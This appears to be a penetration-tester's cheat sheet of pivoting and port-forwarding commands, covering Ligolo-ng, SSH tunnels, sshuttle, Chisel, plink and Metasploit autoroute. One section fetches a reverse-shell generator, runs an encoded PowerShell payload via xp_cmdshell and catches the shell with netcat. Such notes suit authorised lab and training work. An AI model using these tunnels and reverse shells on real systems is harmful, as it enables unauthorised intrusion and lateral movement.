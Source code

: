 # Port Forwarding / Pivoting

<details>

<summary>Ligolo-ng</summary>

On Kali:

```bash
sudo ip tuntap add user root mode tun ligolo
sudo ip link set ligolo up
./proxy_linux64 -selfcert -laddr 0.0.0.0:443 
		
# After client connects:
  In Ligolo-ng session: ifconfig
  In Kali terminal: sudo ip route add <internal-subnet> dev ligolo
```

On pivot machine:

```bash
.\agent_win64.exe -connect 192.168.45.227:443 -ignore-cert
```

**Double pivoting:**

<pre class="language-bash"><code class="lang-bash"># In Ligolo session
<strong>listener_add --addr 0.0.0.0:80 --to 127.0.0.1:80
</strong>
# In Internal Machine B
.\agent_win64.exe -connect &#x3C;Pivot_A_IP>:80 -ignore-cert
</code></pre>

</details>

<details>

<summary>Dynamic Port Forwarding</summary>

On Kali machine:

```bash
ssh -f -N -D 1080 j0hn@10.11.1.252
```

Edit `/etc/proxychains.conf`

```bash
[ProxyList]
# add proxy here ...
# meanwhile
# defaults set to "tor"
socks5 	127.0.0.1 1080
```

Using tools:

```bash
proxychains -q curl http://10.3.3.13
```

For burp, see [here](../configurations/burpsuite-upstream-proxy.md)

</details>

<details>

<summary>Reverse Port Forwarding</summary>

On Kali:

```bash
service ssh start
```

On Target:&#x20;

```bash
ssh -f -N -R 44544:127.0.0.1:445 kali@192.168.45.241
```

* Opens port 44544 on kali and forwards to the target's port 445.

</details>

<details>

<summary>Sshuttle</summary>

On Kali:

* SSH creds of edge machine
* Internal network to be exposed

```bash
sshuttle -r sean@10.11.1.251 10.1.1.0/24
```

</details>

<details>

<summary>Chisel &#x26; Proxychains</summary>

### Kill port 8080

```bash
fuser -k 8080/tcp
```

### On Kali:

* Copied chisel [pre-compiled](https://github.com/jpillora/chisel/releases/tag/v1.7.6)

```bash
chisel server -p 8080 --reverse
```

* Edit `/etc/proxychains.conf`

```bash
socks5 127.0.0.1 1080
```

### On Victim:

```bash
chisel client 192.168.45.191:8080 R:socks
```

## Configure Burp for Web Browsing via Chisel

```bash
Proxy Type: SOCKS5
Proxy IP address: 127.0.0.1
Port: 1080
```

## Proxychains Nmap Usage

* Have to use TCP Connect scan (-sT)
* ICMP doesn’t work over proxychains (hence need -Pn)
* vv slow, could instead install & use nmap on the compromised host.

```bash
proxychains nmap ..
```

</details>

<details>

<summary>Reverse Port Forward to Remote Server (when victim can't reach attacker directly)</summary>

[https://simplecheatsheet.com/ssh-tunnel-proxy/](https://simplecheatsheet.com/ssh-tunnel-proxy/)

### Background

* Attacker has access to MS01.
* Chisel is already in place but MS02 in internal network still unable to reach attacker.

### On Kali:

```bash
ssh web_svc@192.168.218.147 -N -R *:7777:localhost:7777
```

### On Victim:

* Insert in MS01's internal IP as Reverse IP
* Reverse port is 7777

```bash
wget https://gist.githubusercontent.com/tothi/ab288fb523a4b32b51a53e542d40fe58/raw/40ade3fb5e3665b82310c08d36597123c2e75ab4/mkpsrevshell.py
python3 mkpsrevshell.py 10.10.108.147 7777
SQL> xp_cmdshell "powershell -e JABj..."
```

### On Kali:

```bash
nc -lvp 7777
# listening on [any] 7777 ...
# connect to [127.0.0.1] from localhost [127.0.0.1] 39614

# PS C:\Windows\system32> whoami
# nt service\mssql$sqlexpress
```

</details>

<details>

<summary>Exposing An Internal port from Windows Victim</summary>

### Using Plink:

To forward victim port 80 to kali's port 80

On Windows victim:

```bash
plink.exe -N -R 80:127.0.0.1:80 kali@192.168.45.5 -pw .8monitor
```

#### If port 22 is blocked --> try other ports

```bash
# Inside /etc/ssh/sshd_config
	  14 Port 139
	  15 AddressFamily any
	  16 ListenAddress 0.0.0.0
  	  17 ListenAddress ::

# On Victim
plink.exe -N -R 8888:127.0.0.1:8888 kali@10.10.14.2 -pw .8monitor -P 139
```

### Using Chisel:

To forward victim's port 3306 to kali's port 3306

On Kali:

```bash
chisel server -p 8080 --reverse
```

On Victim:

```bash
chiselx64.exe client 192.168.45.5:8080 R:3306:127.0.0.1:3306
```

</details>

<details>

<summary>Local Port Forwarding</summary>

To forward victim port 80 to kali's port 8000.

On Kali:

```bash
ssh -N -L 8000:192.168.165.99:80 ariah@192.168.165.99
```

</details>

<details>

<summary>Double Pivoting</summary>

### Use port 2080 instead

```bash
proxychains -q ssh -f -N -D 2080 -o KexAlgorithms=diffie-hellman-group14-sha1 -oHostKeyAlgorithms=+ssh-dss bill@10.1.1.1
```

### Copy /etc/proxychains.conf, edit the port to 2080

```bash
 111 [ProxyList]
 112 # add proxy here ...
 113 # meanwhile
 114 # defaults set to "tor"
 115 socks5  127.0.0.1 2080
```

### Usage&#x20;

```bash
proxychains -q -f /home/kali/Documents/offsec/10.1.1.1/proxychains_2080.conf nmap --top-ports 100 -sT -Pn 10.3.3.14
```

</details>

<details>

<summary>Metasploit's Autoroute</summary>

```bash
background
use multi/manage/autoroute
set session 1
exploit

use auxiliary/server/socks_proxy 
set srvhost 127.0.0.1
exploit -j
```

Then, in Kali:

```bash
sudo bash -c 'echo "socks5 127.0.0.1 1080" >> /etc/proxychains4.conf'
proxychains rdesktop 192.168.122.10
```

</details>

<details>

<summary>Links</summary>

[https://gist.github.com/grantpullen/5a1c79a4e4a28e3b1d66ae17c8a9eb61](https://gist.github.com/grantpullen/5a1c79a4e4a28e3b1d66ae17c8a9eb61)

[https://0xdf.gitlab.io/2019/01/28/pwk-notes-tunneling-update1.html](https://0xdf.gitlab.io/2019/01/28/pwk-notes-tunneling-update1.html)

[https://www.ctfnote.com/red-teaming/pivoting](https://www.ctfnote.com/red-teaming/pivoting)

</details>

